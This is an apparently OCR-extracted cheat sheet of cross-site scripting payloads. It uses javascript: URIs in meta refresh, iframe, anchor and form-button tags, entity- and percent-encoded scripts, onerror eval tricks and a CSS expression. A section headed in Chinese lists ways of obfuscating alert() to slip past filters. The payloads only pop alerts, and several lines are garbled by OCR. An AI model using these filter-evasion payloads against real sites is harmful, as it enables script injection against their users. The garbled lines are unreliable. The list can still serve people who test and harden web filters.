 <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">

<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

<form><a href="javascript:\u0061lert(1)">X

</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>

<style>//*{x:expression(alert(/xss/))}//<style></style> 

On Mouse Over

<img src="/" =_=" title="onerror='prompt(1)'">

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe

<script x> alert(1) </script 1=2

<form><button formaction=javascript&colon;alert(1)>CLICKME

<input/onmouseover="javaSCRIPTconfirm1"

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>




### 3.1.  Alert混淆以绕过过滤器


(alert)(1)

a=alert,a(1)

[1].find(alert)

top“al”+”ert”

top/al/.source+/ert/.source

al\u0065rt(1)

top‘al\145rt’

top‘al\x65rt’

top8680439..toString(30)



